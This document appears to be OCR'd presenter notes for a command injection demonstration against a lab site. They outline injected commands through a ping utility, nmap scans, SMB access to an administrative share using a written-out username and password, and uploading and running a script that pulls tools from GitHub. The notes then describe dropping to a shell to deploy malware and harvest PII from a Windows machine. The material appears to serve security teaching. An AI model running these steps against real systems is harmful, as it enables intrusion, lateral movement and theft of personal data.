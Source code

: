 Command Injection Demo:

Academic:
    Dig through DNS\
    Port scan IPs
    Interrogate IP
	HTTP Watch/Fiddler/Postman/Wireshark
	Headers can indicate the stack
 
Commands:
    Login: wier credentials to connect.hackysock.com
    Browse site… Exploratory work
    Over to the ping utility
        note the command injection flaw.
	    whoami
	    pwd
	    cd ../../
	    ls
	    ifconfig -a | grep netmask
	    which nmap
	    nmap -sP 192.168.122.1/24
	    namp -p 135 192.168.122.7
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:
    Upload file: Note the path description
	Figure out where uploads go
	Upload script
	CHMOD script
		chmod 775 ../../hackable/uploads/pull_scripts.sh
	Execute script
		../../hackable/uploads/pull_scripts.sh
	Show all the scripts that were pulled down from GitHub

* It should be apparent at this point that I own the box so….*

Drop to shell to show rest of demo and malware deployment.
	Execute pii script
	Show pii data pulled from windows machine
	
	
